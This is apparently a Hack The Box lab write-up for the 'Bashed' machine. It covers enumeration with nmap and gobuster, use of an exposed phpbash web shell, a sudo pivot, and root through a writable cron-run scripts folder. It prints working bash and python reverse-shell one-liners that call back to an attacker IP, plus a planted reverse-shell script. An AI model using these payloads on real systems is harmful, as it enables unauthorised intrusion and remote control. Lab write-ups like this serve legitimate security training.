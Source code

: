 # Bashed

![image](https://user-images.githubusercontent.com/10210108/79369383-d8b97280-7f1e-11ea-95e8-354f14929c25.png)

## Overview

Bashed is an Ubuntu box running Apache hosting a custom website/blog. The developer talks about creating something called phpbash. Using gobuster I discovered a number of folders including a site that hosted a web-based shell running as www-data. Using the shell I determined that a cron job was running anything in the scripts folder as root which was exploited to get a root shell.

## Enumeration

**Software**

* Ubuntu 16.04.2 LTS
* Apache 2.4.18

**Open Ports**

```
nmap -vv -Pn -sT -A --osscan-guess -p- 10.10.10.68 -oN /mnt/data/boxes/bashed/_full_tcp_nmap.txt
```

* 80/tcp - http

**URL/File Discovery**

```
gobuster dir -w http://10.10.10.68 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html -t 25
```

![image](https://user-images.githubusercontent.com/10210108/79475960-660bce00-7fd6-11ea-82ad-3f296cd9bf12.png)

## Steps (User)

Browsing to http://10.10.10.68 showed a blog entry talking about phpbash which appeared to be a web shell that was created for pentesting. There were no other pages or interesting information in the source code.

Reviewing the gobuster output showed a few interesting results but nothing useful besides /dev. Browsing to /dev showed a directory listing with one of the files being phpbash.php.

![image](https://user-images.githubusercontent.com/10210108/79476916-943ddd80-7fd7-11ea-837c-f43669e1abc9.png)

Browsing to http://10.10.10.68/dev/phpbash.php brought me to a page hosting a web-based user shell.

![image](https://user-images.githubusercontent.com/10210108/79477267-07475400-7fd8-11ea-9d43-f63bd20e4d3d.png)

One of the first things I do is run sudo -l which lists the allowed commands for the user. The output of this command showed that this account can run any command as user "scriptmanager".

> [sudo](https://linux.die.net/man/8/sudo) allows a permitted user to execute a command as the superuser or another user, as specified by the security policy. 

![image](https://user-images.githubusercontent.com/10210108/79497293-6b2c4580-7ff5-11ea-9a4c-ccd7c7a6179b.png)

Attempting to switch to scriptmanager doesn't work on the web shell so to get around this I used netcat to create a reverse shell. The box was running the openbsd version of netcat so there was no -e option, __bash -i >& /dev/tcp/10.10.14.13/4200 0>&1__ and a few other variations of this didn't work. 

I ran 'which python' to confirm that python was installed on the box and grabbed a copy of the python reverse shell from [PentestMonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet). 

I started a netcat listener (nc -l 4200), updated the command with my box's IP/port, and ran it in the web shell.

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.32",4200));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![image](https://user-images.githubusercontent.com/10210108/86192957-bea03100-bb18-11ea-8010-9be1166be8b6.png)

Now that I had a proper shell I was able to run the command below which executed a bash shell under the context of the scriptmanager user.

```
sudo -u scriptmanager /bin/bash
```

![image](https://user-images.githubusercontent.com/10210108/79480129-b2a5d800-7fdb-11ea-918d-b78590dee785.png)

## Steps (root/system)

As I was looking around on the filesystem I noticed an unusual folder /scripts. In this folder there was a file owned by root that, judging by the timestamp (ls -la), was being updated frequently.  I ran pspy to see if there were any automated tasks running. 

> [pspy](https://github.com/DominicBreuker/pspy) is a command line tool designed to snoop on processes without need for root permissions.

I copied pspy32 to my working directory and fired up a python http server so I could transfer the file to the target box. 

```
local: cp ~/tools/pspy/pspy32 .
local: python3 -m http.server 80
```

I then used wget to copy the file to the target.

```
target: wget http://10.10.14.32/pspy32
```

pspy shows that the command that is being run 

```
/bin/sh -c cd /scripts; for f in *.py; do python "$f"; done
```

![image](https://user-images.githubusercontent.com/10210108/79482678-24cbec00-7fdf-11ea-8bb5-54d3fae6e8c0.png)

I updated the IP/port in the python code used earlier and started a netcat listener on the matching port (nc -lvnp 4201).

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.13",4201)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

Using the python http server again, I copied the code to a new file and copied it over to the target box.

```
wget http://10.10.14.32/rshell.py /scripts/rshell.py
chmod +x /scripts/rshell.py
```

Once the script was executed I received a callback on my netcat listener and received a shell as root.

![image](https://user-images.githubusercontent.com/10210108/79483164-e420a280-7fdf-11ea-950a-25dc9b8cee38.png)
